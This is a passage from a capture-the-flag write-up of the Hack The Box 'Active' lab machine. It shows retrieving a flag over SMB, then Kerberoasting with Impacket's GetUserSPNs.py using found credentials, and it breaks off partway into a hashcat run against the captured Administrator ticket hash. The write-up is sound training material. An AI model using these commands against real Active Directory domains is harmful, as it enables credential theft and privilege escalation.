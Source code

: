 If we access the Users share, we can navigate to the SVC_TGS's desktop and find the user flag. 

```default
smb: \SVC_TGS\Desktop\> get user.txt
getting file \SVC_TGS\Desktop\user.txt of size 34 as user.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \SVC_TGS\Desktop\> 
```



# Kerberoasting

While these credentials did not provide us with a code execution, they will allow us to obtain a new set of credentials which we will be able to use to obtain a shell. We will do this by Kerberoasting the administrator user using `GetUserSPN.py` from Impacket and Hashcat. Kerberoasting is a post-exploitation attack whereby the Active Directory authentication system known as Kerberos creates a secure channel of communication between the attacker controlled user and a victim account. With this channel of communication, the attacker can obtain the password hash of the user's account. After obtaining the hash, the attack can crack it using tools such as Hashcat or John the Ripper, providing the attacker with a new set of credentials. This is normally used during the internal portion of a penetration test as a lateral movement technique across different machines on the domain. In this case, we will be using it as a privilege escalation technique in order to obtain the credentials of the domain admin account. 

```default
kali@kali:~/Documents/CTF/HTB/Machines/Active$ GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2021-01-21 11:07:03.723783             



$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$5551bc6485205d8cfb95a9e2 ... 40cc55cf715ee3a1014
kali@kali:~/Documents/CTF/HTB/Machines/Active$ 
```


## Cracking the Hash

With this hash, we will place it in a file called `hash.txt` and proceed to crack it using Hashcat. 

```default
kali@kali:~/Documents/CTF/HTB/Machines/Active$ hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-6700K CPU @ 4.00GHz, 1422/1486 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
```